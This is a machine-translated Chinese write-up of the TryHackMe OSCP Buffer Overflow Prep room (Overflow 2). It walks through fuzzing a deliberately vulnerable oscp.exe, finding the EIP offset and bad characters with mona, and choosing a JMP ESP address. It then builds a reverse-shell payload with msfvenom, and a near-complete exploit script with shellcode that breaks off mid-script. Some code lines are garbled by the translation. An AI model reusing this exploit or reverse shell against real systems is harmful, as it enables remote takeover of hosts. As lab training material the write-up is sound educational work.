# TryHackMe: OSCP 缓冲区溢出准备(溢出 2)

> 原文：<https://infosecwriteups.com/tryhackme-oscp-buffer-overflow-prep-overflow-2-57c22b51a91f?source=collection_archive---------2----------------------->

**由 Shamsher khan 练习的基于堆栈的缓冲区溢出！对于 OSCP**



**房间链接:**[**https://www.tryhackme.com/room/bufferoverflowprep**](https://www.tryhackme.com/room/bufferoverflowprep) **注:此房免费**

在你完成这篇文章之前，确保你已经完成了

## [缓冲区溢出准备(溢出-1)](https://shamsher-khan-404.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e000482f27)

[**下载 OSCP.exe**](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app)

[](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app) [## shamsherkhan 852/缓冲区溢出漏洞 app

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/shamsherkhan852/Buffer-Overflow-Vulnerable-app) 

# 定义:

1.  **EIP = >** 扩展指令指针(EIP)是一个寄存器，包含程序或命令的下一条指令的地址。
2.  **ESP= >** 扩展堆栈指针(ESP)是一个寄存器，它让你知道你在堆栈上的位置，并允许你将数据推入和推出应用程序。
3.  **JMP = >** 跳转(JMP)是一条修改执行流程的指令，其中您指定的操作数将包含要跳转到的地址。
4.  **\x41，\x42，\ x43 =>**A、B、c 的十六进制值，对于这个练习来说，使用 hex vs ascii 并没有什么好处，这只是我个人的喜好。

# 溢出#2

好的，现在我们应该以管理员身份运行我们的免疫调试器并打开 oscp.exe。


应用程序将以“暂停”状态加载到调试器中。在抗干扰调试器中点击上栏**或 F9** 上的红色播放按钮。

通过检查免疫力调试器右下角的状态，确保 exe 正在运行。


要进行检查，我们可以使用端口 1337 NC 到目标机器。



在这里我选择**溢出 2** 参数

在 mona 中设置工作文件夹。

[](https://github.com/corelan/mona) [## 科勒兰/莫娜

### 是一个 python 脚本，可以用来自动化和加速特定的搜索…

github.com](https://github.com/corelan/mona) 

将 mona.py 和 paset 下载到 C:\ Program Files(x86)\ Immunity Inc \ Immunity Debugger \ py commands

```
!mona config -set workingfolder c:\mona\%p
```



让我们试着运行 fuzzer.py(从房间获取)看看结果。只需检查脚本中的 IP 是否正确，并确保在运行脚本之前再次运行免疫调试器中的 oscp.exe。

**注意:-将 fuzzer.py 和 exploit.py 中的 OVERFLOW1 命令改为 overflow 2**

# Fuzzer.py

```
import socket, time, sys
ip = "192.168.43.57";
port = 1337
timeout = 5
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100
for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW2 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

同时复制 **exploit.py** 代码

```
import socketip = "192.168.43.57"
port = 1337prefix = "OVERFLOW2 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

点击红色的播放按钮，并开始对目标 IP fuzzer . py



如果你能看到它停在 700 字节，这意味着偏移量将在 600 到 700 字节的范围内。让我们创建一个大于 300 字节的模式，也就是 1000 字节。



上图中你可以看到 EIP 已经被 41414141 (AAAA)覆盖。所以我们需要找到程序崩溃的确切地址

现在根据使服务器崩溃的字节长度生成一个模式。

```
msf-pattern_create -l 1000
```



所以复制有效载荷，放入 exploit.py 中的有效载荷变量，尝试运行。该脚本应该会再次使 oscp.exe 服务器崩溃。

**CTRL+F2 =重新加载 OSCP.exe**

**F9 =运行服务器**


确保 oscp.exe 正在免疫调试器中运行。对目标执行 exploit.py。



在上图中，我们有 **EIP=76413176**

EIP 被我们生成的偏移量覆盖。

# 查找偏移值



偏移值是 634

**使用 mona 模块查找偏移值的另一种方法**

尝试在免疫模式下运行以下 mona 命令:

```
!mona findmsp -distance 1000
```



所以寻找表示 EIP 包含正常模式的行:0x76413176(偏移量 634)。我们在 offset 变量中找到的偏移量，并将 retn 变量设置为 BBBB。

更新偏移量和 retn 变量



重新启动。exe，并按 Ctrl+F12 和 F9 运行。执行 exploit.py。如果偏移量正确，我们应该看到“42424242”

Let’s run it again.



As we can see the **EIP**寄存器被 BBBB 或 42424242 覆盖。到目前为止，一切都很顺利。

记下 ESP 地址，因为我们将在后续步骤中使用该位置的值

# 查找 Badchars

现在我们需要找到 bad char——为此我们创建 bad char，使用 MONA 在机器内部设置，另一个只需通过谷歌搜索或使用 python 脚本。默认情况下\x00 被认为是一个坏字符，所以它肯定会被忽略。这有助于我们识别对我们的程序真正有害的字符！

使用 mona 生成 bytearray，默认情况下排除空字节(\x00)。

使用这个 mona 命令。

```
!mona bytearray -b "\x00"
```


现在我们需要从\x01 到\xff 生成一个与 bytearray 相同的坏字符字符串。使用 python 脚本

# bytegen.py

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```



这个生成的字符串已经删除了\x00，所以我们需要从。和莫娜在一起。

将新生成的字符串复制到 exploit.py 中的有效负载变量中



运行脚本并记下 ESP 寄存器指向的地址



右键单击 ESP 值，然后转储



在上面的图像中，序列在 22 或 25 之间被改变，这意味着在有效载荷中有一些坏字符，让我们找出坏字符

在下面的 mona 命令中使用它

**注意:-** 也许您的 ESP 地址不同

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00DAFA28
```



可能的错误字符

所以我们找到了一个可能的坏字符列表`**23 24 3c 3d 83 84 ba bb**`

并非所有这些都是不好的字符！有时坏字符也会导致下一个字节损坏，甚至影响字符串的其余部分。

此时，我开始一次删除一个不良字符。我通过重复以下步骤，一次删除一个坏字符:

*   从字节数组中删除字符
*   从漏洞有效载荷中移除字符
*   启动 exe
*   使用 mona 进行比较

开始豁免 oscp.exe，

所以我创建了一个新的 bytearray，并从有效负载中删除了\x23

```
!mona bytearray -b "\x00\x23"
```



运行服务器

编辑 exploit.py 从有效负载变量中移除\x23 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 009AFA28(ESP)
```



根据免疫调试器的提示，现在可能的坏字符是 x3c \x3d \x83 \x84\xba\xbb。这意味着一个 BADCHAR 把它的相邻字节也变成了 BADCHAR，缺省情况下 BAD char 是不需要的

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\x3c

```
!mona bytearray -b "\x00\x23\x3c"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\x3c 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0077FA28
```



同样，x3c 是一个坏字符，而 x3d 不是。

现在我们只有两个明显的 BADCHARS \ x83 \ x84 \ xba \ xbb

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\x83

```
!mona bytearray -b "\x00\x23\x3c\x83"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\x83 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 007FFA28
```



同样，x83 是一个坏字符，x84 不是。

现在我们只有两个明显的 BADCHARS \ xba \ xbb

开始豁免 oscp.exe

所以我创建了一个新的 bytearray，并从有效负载中删除了\xba

```
!mona bytearray -b "\x00\x23\x3c\x83\xba"
```

运行服务器

编辑 exploit.py 从有效负载变量中移除\xba 并运行 exploit.py


检查 ESP 指针值



```
!mona compare -f C:\mona\oscp\bytearray.bin -a 00A4FA28
```



在这之后！我们启动它并在 MONA 中运行比较，我们发现地址现在未被修改。嘣，我们终于有了坏蛋

未修改错误

试错之后，顺序是这样的。

绿色方框表示正确的坏字符

让我们再次使用 mona 命令找到跳转点:

```
!mona jmp -r esp -cpb “\x00\x23\x3c\x83\xba”
```



上述结果中的任何地址都可能被用作漏洞利用中的 retn 值。小端=反。还要添加填充以允许有效载荷打开包装。

注意地址 **625011AF**

> **注意:-如果 625011 没有为反向外壳创建完美的支付，则更改地址，直到您获得反向外壳**

用新地址更新我们的 retn 变量，并且必须向后写(因为系统是 little-endian=Reverse)。

```
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
```



现在使用 msfvenom 生成反向 shell 有效负载。

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.73 LPORT=4444 EXITFUNC=thread -b “\x00\x23\x3c\x83\xba” -f c
```



将有效负载复制到 exploit.py 中，并将有效负载变量设置为 buf。



所以最后的有效载荷是我的卡莉

```
import socketip = "192.168.43.57"
port = 1337
buf = b""
buf += b"\xfc\xbb\x20\xd6\x6b\x2a\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
buf += b"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xdc\x3e\xe9\x2a\x1c"
buf += b"\xbf\x8e\xa3\xf9\x8e\x8e\xd0\x8a\xa1\x3e\x92\xde\x4d\xb4\xf6"
buf += b"\xca\xc6\xb8\xde\xfd\x6f\x76\x39\x30\x6f\x2b\x79\x53\xf3\x36"
buf += b"\xae\xb3\xca\xf8\xa3\xb2\x0b\xe4\x4e\xe6\xc4\x62\xfc\x16\x60"
buf += b"\x3e\x3d\x9d\x3a\xae\x45\x42\x8a\xd1\x64\xd5\x80\x8b\xa6\xd4"
buf += b"\x45\xa0\xee\xce\x8a\x8d\xb9\x65\x78\x79\x38\xaf\xb0\x82\x97"
buf += b"\x8e\x7c\x71\xe9\xd7\xbb\x6a\x9c\x21\xb8\x17\xa7\xf6\xc2\xc3"
buf += b"\x22\xec\x65\x87\x95\xc8\x94\x44\x43\x9b\x9b\x21\x07\xc3\xbf"
buf += b"\xb4\xc4\x78\xbb\x3d\xeb\xae\x4d\x05\xc8\x6a\x15\xdd\x71\x2b"
buf += b"\xf3\xb0\x8e\x2b\x5c\x6c\x2b\x20\x71\x79\x46\x6b\x1e\x4e\x6b"
buf += b"\x93\xde\xd8\xfc\xe0\xec\x47\x57\x6e\x5d\x0f\x71\x69\xa2\x3a"
buf += b"\xc5\xe5\x5d\xc5\x36\x2c\x9a\x91\x66\x46\x0b\x9a\xec\x96\xb4"
buf += b"\x4f\xa2\xc6\x1a\x20\x03\xb6\xda\x90\xeb\xdc\xd4\xcf\x0c\xdf"
buf += b"\x3e\x78\xa6\x1a\xa9\x47\x9f\x0f\x60\x20\xe2\x4f\x63\xec\x6b"
buf += b"\xa9\xe9\x1c\x3a\x62\x86\x85\x67\xf8\x37\x49\xb2\x85\x78\xc1"
buf += b"\x31\x7a\x36\x22\x3f\x68\xaf\xc2\x0a\xd2\x66\xdc\xa0\x7a\xe4"
buf += b"\x4f\x2f\x7a\x63\x6c\xf8\x2d\x24\x42\xf1\xbb\xd8\xfd\xab\xd9"
buf += b"\x20\x9b\x94\x59\xff\x58\x1a\x60\x72\xe4\x38\x72\x4a\xe5\x04"
buf += b"\x26\x02\xb0\xd2\x90\xe4\x6a\x95\x4a\xbf\xc1\x7f\x1a\x46\x2a"
buf += b"\x40\x5c\x47\x67\x36\x80\xf6\xde\x0f\xbf\x37\xb7\x87\xb8\x25"
buf += b"\x27\x67\x13\xee\x47\x8a\xb1\x1b\xe0\x13\x50\xa6\x6d\xa4\x8f"
buf += b"\xe5\x8b\x27\x25\x96\x6f\x37\x4c\x93\x34\xff\xbd\xe9\x25\x6a"
buf += b"\xc1\x5e\x45\xbf\xc1\x60\xb9\x40"
prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = bufpostfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
